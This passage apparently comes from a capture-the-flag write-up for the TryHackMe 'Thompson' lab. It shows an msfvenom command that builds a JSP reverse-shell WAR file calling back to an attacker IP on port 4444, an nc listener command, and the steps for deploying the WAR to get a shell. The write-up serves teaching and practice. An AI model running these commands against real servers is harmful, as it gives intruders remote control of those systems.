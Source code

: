 
Then Create shellcode as `war file` by `msfvenom`

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.1.252 LPORT=4444 -f war -o shell.war
```

Setup Listener
```sh
nc -lvnp 4444
```

Upload & Deploy a malicious WAR

![](/images/TryHackMe/Thompson/below1.png)

Refresh page then Click on `/shell` such below:

![](/gifs/click.gif)

![](/images/TryHackMe/Thompson/below2.png)

---
